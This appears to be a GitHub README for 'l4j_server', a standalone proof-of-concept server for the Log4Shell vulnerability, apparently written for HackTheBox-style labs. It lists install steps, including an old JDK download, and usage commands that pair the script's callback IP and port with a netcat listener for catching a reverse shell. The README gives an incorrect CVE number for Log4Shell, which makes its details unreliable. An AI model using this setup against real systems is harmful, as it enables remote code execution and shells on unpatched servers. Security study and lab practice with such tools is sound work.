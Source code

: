 

# l4j_server 
l4j_server is a lightweight, standalone server to be used a POC for the L4J vulnerability associated with Log4Shell (CVE-2021-22448)    


## Screenshot



![l4j_server in action](https://raw.githubusercontent.com/serialwaffle/l4j_server/main/l4j_server.png)

## Installation
```
git clone https://github.com/serialwaffle/l4j_server.git
```

Download **jdk-8u202-linux-x64.tar.gz** from:

https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html



Untar in git Repo directory
```
tar -xvf jdk-8u202-linux-x64.tar.gz
```

## Usage
```
python3 log4j_Server.py <callback_ip:callback_port> <HTTP_server_port>

nc -lnvp <callback_port>

```


## Support 
If you appreciate my work and HackTheBox, feel free to give me some respect:  

<a href="https://www.hackthebox.eu/profile/5305"><img src="https://www.hackthebox.eu/badge/image/5305" width="150"></a>
